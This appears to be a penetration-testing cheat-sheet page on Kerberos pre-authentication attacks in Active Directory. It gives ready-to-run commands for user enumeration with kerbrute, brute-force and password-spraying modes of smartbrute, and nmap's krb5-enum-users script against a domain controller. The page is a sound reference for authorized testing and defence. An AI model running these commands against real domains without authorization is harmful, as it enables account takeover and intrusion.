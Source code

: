 # Pre-authentication Kerberos

## Objectives

* Bruteforce accounts
* Password Spraying
* Bruteforce single user
* Enumerate user

Pre-authentication (AS-REQ) is possible on all accounts that have this checkbox unchecked :\
![](<../.gitbook/assets/image (9).png>)

In Pre-authentication, the user does not supply its password but a secret which is derivated from its password (DES, RC4, AES128 or AES256).

If we know the derivated secret, we don't need to know the password to achieve pre-auth (pass-the-key).

If pre-authentication is disabled, AS-REP Roasting is possible.

## Kerbrute (go)

```
sudo git clone https://github.com/ropnop/kerbrute.git
ls dist/
./kerbrute_linux_amd64 
sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute
kerbrute userenum -d corp.com --dc 192.168.152.70 /opt/seclists/Usernames/xato-net-10-million-usernames.txt -o valid_ad_users

```

## Alternative : Smartbrute (Python)

```
# brute mode, users and passwords lists supplied
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN

# smart mode, valid credentials supplied for enumeration
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos// Some code
```

## Nmap

```
nmap -p 88 --script="krb5-enum-users" --script-args="krb5-enum-users.realm='$DOMAIN',userdb=$WORDLIST" $IP_DC

```
